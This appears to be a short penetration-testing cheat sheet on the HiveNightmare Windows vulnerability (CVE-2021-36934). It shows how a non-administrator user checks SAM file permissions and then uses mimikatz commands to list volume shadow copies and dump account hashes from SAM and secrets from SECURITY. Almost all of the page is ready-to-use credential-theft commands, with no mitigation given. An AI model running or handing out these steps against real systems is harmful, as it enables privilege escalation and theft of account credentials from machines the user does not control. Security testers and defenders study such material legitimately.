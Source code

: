 # HiveNightmare

#### CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user.

## <mark style="color:red;">Exploitation</mark>

Check for the vulnerability using icacls

```
C:\Windows\System32> icacls config\SAM
```

```
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!                    
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```
mimikatz> token::whoami /full
```

#### List shadow copies available

```
mimikatz> misc::shadowcopies
```

#### Extract account from SAM databases

```
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
```

#### Extract secrets from SECURITY

```
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
